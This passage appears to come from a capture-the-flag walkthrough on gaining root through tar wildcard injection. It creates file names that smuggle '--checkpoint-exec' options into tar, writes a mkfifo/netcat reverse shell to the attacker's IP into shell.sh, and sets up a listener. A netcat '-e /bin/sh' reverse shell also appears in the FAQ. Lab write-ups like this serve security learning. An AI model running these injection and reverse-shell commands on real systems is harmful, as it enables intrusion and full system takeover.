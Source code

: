 --checkpoint-exec= <some bash command>    -> executes some bash command
--checkpoint= <time>                      -> display progress after <time> number of records
```
So we create these files on the /var/www/html directory.
```
touch "/var/www/html/--checkpoint-exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```
Lets write a file called ```shell.sh``` with some malicious command inside.
```
echo "rm /tmp/buffer;mkfifo /tmp/buffer;cat /tmp/buffer|/bin/sh -i 2>&1|nc $your_ip 2403 >/tmp/buffer" > shell.sh
```

This creates a named pipe (also known as a FIFO) named "buffer" in the "/tmp" directory. A named pipe is a special type of file that acts as a channel for communication between processes. Data written to one end of the pipe is immediately available for reading at the other end.

Then we take the content of the file and pipe it to ```/bin/sh -i``` to execute it as an interactive mode.

Then the output of the shell command is piped into the ```nc``` and sent to the attackers machine. 

The next command from the attacker machine is output as the command and written into ```/tmp/buffer```

As the ```/bin/sh -i``` command was interactive, this will execute again and form a loop maintaining stable connection.
Now we have to setup a listener on our machine on port 2403 by ```nc -lvnp 2403``` and we are done.

The root flag is in ```/root/root.txt```

``` 
5. What is the root flag?
Ans: <--Redacted-->
```
#### <span style="color:red">FAQ</span>
<strong>1. Why didn't a normal revshell like ```/bin/netcat $your_ip $port -e /bin/sh ``` work? </strong>
>  When you open your terminal you start an interactive shell, in this example using bash, your .bashrc file is automatically invoked. When this script runs, any environment variables it exports are available to every command you run in your terminal session. This method of setting environment variables in your .bashrc is the most common way that persistent environment variables are set, but your cron jobs do not invoke an interactive shell, and your .bashrc is not automatically loaded. This is true even if you specify /bin/bash as your crontab shell.
*courtesy: https://cronitor.io/guides/cron-environment-variables*

